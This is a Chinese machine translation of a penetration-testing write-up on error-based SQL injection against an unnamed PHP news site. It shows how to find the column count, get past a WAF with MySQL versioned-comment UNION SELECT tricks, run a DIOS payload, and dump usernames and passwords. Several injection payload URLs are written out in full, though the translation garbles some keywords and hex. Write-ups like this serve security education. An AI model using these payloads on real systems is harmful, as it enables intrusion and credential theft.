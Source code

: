 # 绕过 WAF 进行高级的基于错误的 SQL 注入

> 原文：<https://infosecwriteups.com/bypassing-waf-to-do-error-based-sql-injection-dd52773a66d3?source=collection_archive---------0----------------------->

![](img/da97abacfe6e77423ecf273ac03aaa0a.png)

在渗透测试期间，我面对一个网站，在这篇文章中我将它命名为**http://domain.com**

在浏览网站时，我没有看到任何单个参数，尽管该网站是用 PHP 构建的。我停止了浏览，开始谷歌 Dorking。

# **Google Dorking 寻找端点**

使用一个简单的傻瓜 **inurl:http://domain.com** ，我设法得到了一些有趣的端点:

![](img/d4243a98dddf975a848d8054dc809577.png)

图像中选中的文字引出一个有趣的点:[**http://domain.com/REDACTED/news.php?id=13**](http://domain.com/REDACTED/news.php?id=13)

打开网址时，我遇到了一个 MySQL 错误。即使从 Google dorking 结果中，您也可以看到错误:

> 警告:mysql_fetch_assoc()期望参数 1 是 resource，第 27 行的 boolean give in …

![](img/a0c4abd6955a3f2375d6eb333ff6f510.png)

访问端点时出现 MySQL 错误

这个错误对我们来说非常有价值，因为我们知道我们可以执行一些基于布尔的查询。让我们开始开发。

# 分析网站的行为

我尝试了一些基本的查询，看看网站的行为。当我输入一个错误的查询时，我得到 2 个错误(1 个已经是默认的错误消息，另一个是我们造成的)。

![](img/34cfd669326538a842aaed6530660ddf.png)

所以我们知道，如果我们的查询是正确的，我们只会得到一个错误消息，否则我们会得到两个错误消息。由于这些有价值的信息(我花了时间才意识到)，让我们通过使用 **ORDER BY** 查询来获得列数。

# 使用布尔+ ORDER BY 查询查找列数

因为服务器期望我们使用布尔型，所以我可以使用**和 0** 布尔型查询，但是您也可以使用其他一些布尔型查询:

> 以及空值
> 和 1

我们的查询现在将同时具有布尔型和按查询排序的**。我总是试图从 1 号开始查找列，因为它 100%确定不会显示任何错误。**

> http://domain.com/REDACTED/news.php?id=13，0 按 1 排序—

![](img/676bc2476b4577d7ff916a2144ebafe2.png)

我们只收到一条错误消息(来自网站，而不是我们的查询)。现在我们知道我们的查询是正确的，让我们尝试将列数增加 1，直到我们得到第二个错误。

> ？id=13，0 按 1 排序—(显示 1 个错误)
> ？id=13 且 0 按 2 排序—(显示 1 个错误)
> ？id=13 且 0 按 3 排序—(显示 1 个错误)
> ？id=13 且 0 按 4 排序—(显示 1 个错误)
> ？id=13 且 0 按 5 排序—(显示 1 个错误)
> ？id =13，0 按 6 排序—(显示 2 个错误)

当我们试图找到第 6 列时，会出现 2 条错误消息。所以这意味着数据库只有 5 列。

> http://domain.com/REDACTED/news.php?id=13，0 按 6 排序—

![](img/85973f2289dfe9990a9dfd528793fe3f.png)

试图查找第 6 列时出现 2 个错误

在继续之前，确认数据库有 5 列。

> http://domain.com/REDACTED/news.php?id=13，0 按 5 排序—

![](img/0083e69bbca9cc3ffbb996102ce43e41.png)

# 绕过 WAF 并找到哪一列有要转储数据

现在我们确定了，因为我们没有得到第二个错误。现在是时候使用 **UNION SELECT** 查询来查找这 5 列中的哪一列填充了信息。

> http://domain.com/REDACTED/news.php?id=13 和 0 联合选择 1，2，3，4，5 —

![](img/a786a3ee301f39328cbbd5581e64e647.png)

哦，我们的请求被 WAF 阻止了，让我们试着绕过它。有大量的 UNION 查询可以绕过 WAF，但是在这种情况下，起作用的是:

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，2，3，4，5 —

![](img/1a3dea1dba356497b334804db6301ca2.png)

我们绕过了 WAF，但是没有显示数字。因此，我们不知道要转储哪些列。我浏览了整个页面，但一无所获，所以我决定查看源代码。

![](img/a4b1b22b761324e0f6e0bb5f10067d25.png)

在选中的部分，我们看到数字 **2** 和 **3** 。很好，现在我们知道我们必须关注这两列。在这种情况下，我将尝试第二列。

# 转储第二列中的所有数据

## 转储数据库名称

使用基于 **UNION** 的查询，让我们转储数据库名称。

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，数据库()，3，4，5 —

![](img/8966de78b9cd495e6f5c82a52137fdc7.png)

太好了，我们看到数据库名称了。

## 使用 DIOS 自动转储表+列

我将尝试注入一个 DIOS 有效负载，因为通过手动 SQL 注入来获取每个表的每一列是非常漫长和枯燥的。DIOS 为我们所面临的 SQL 创建了一个很好的表示。我使用的 DIOS 有效载荷是专门为晶圆旁路设计的，使用了 **0xHEX** 转换和 **/*！00000** 用于字符串旁路。

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，/*！00000 concat */(0x3c 666 f6e 7420666163653d 224963656 c 616 e 6422207374796 c 653d 2265643 b 746578742d 736861646 f 773 a 3070782031707820357078202333300000 from */% 20(select % 20(@ x:= 0x 00)，(select%20(0)%20/*！00000 from */% 20(information _ schema/* */)。columns)% 20 where % 20(table _ schema！= 0x 696 e 666 f 726d 6174696 f 6 e5f 736368656d 61)% 20 和%20(0x00)%20in%20(@x:=/*！00000concat*/(@x，0x3c 74723 E3 c 74643 E3 c 666 f 6e 7420636 f 6 c6f 723d 7265642073697 a 653d 333 e 266 e 6273703 b 266 e 6273703 b 266 e 6273703 b，table_schema，0x 266 e 6273703 b 266 e 627373703 b 3c 2 f 6

![](img/5d0dce80f95833fe45a9643daaccb344.png)

## 将数据转储到列中

很好，我们有表格和每个表格的列。从所有这些大表格中，我将注意力集中在这两个表格上。

![](img/e87fb37fd25bdff74405fabef5ab5ecf.png)

这引起了我的注意。我将关注**用户**表，并将转储来自两列的数据:**用户名**和**密码**

最终有效载荷将是:

> http://domain.com/REDACTED/news.php?id=13 和 0 /*！50000UnIoN*/ /*！50000SeLeCt*/ 1，(SELECT+GROUP_CONCAT(用户名，0x3a，密码+分隔符+0x3c 62723 e)+FROM+kb elb _ db . user)，3，4，5 —

现在看看源代码，我们得到了用户名:admin/user 的密码。

![](img/37b163e736c87147e5434ed1451ead15.png)
